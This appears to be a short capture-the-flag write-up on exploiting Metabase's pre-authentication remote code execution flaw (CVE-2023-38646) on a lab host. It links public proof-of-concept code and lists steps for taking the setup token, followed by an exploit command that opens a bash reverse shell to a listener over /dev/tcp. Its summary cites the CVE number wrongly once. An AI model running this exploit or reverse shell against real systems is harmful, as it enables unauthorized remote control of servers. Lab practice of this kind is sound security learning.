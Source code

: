 ## page
![[Pasted image 20231122120642.png]]

## metabase

```docx
Metabase is **an open source tool that allows for powerful data instrumentation, visualization, and querying**.
```

## metabase exploit

https://pentest-tools.com/vulnerabilities-exploits/metabase-remote-code-execution_CVE-2023-38646

https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396

https://github.com/shamo0/CVE-2023-38646-PoC/blob/main/CVE-2023-38646.py (this exploit works)


## summary of exploit
```
Metabase open source versions before 0.46.6.1 and Metabase Enterprise versions before 1.46.6.1 are vulnerable to CVE-2023-33246, a Remote Code Execution vulnerability. The root cause of this vulnerability is that the setup token is not cleared after the setup is completed. This allows an unauthenticated attacker to get the setup token and use it to execute commands on the target remotely.
```

## further reading
https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

## exploit steps
- go to `/api/session/properties`
- copy `setup-token` from the response
- start listener
### trigger exploit
```bash
python3 main.py  -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c 'bash -i >& /dev/tcp/10.10.16.49/9001 0>&1'
```
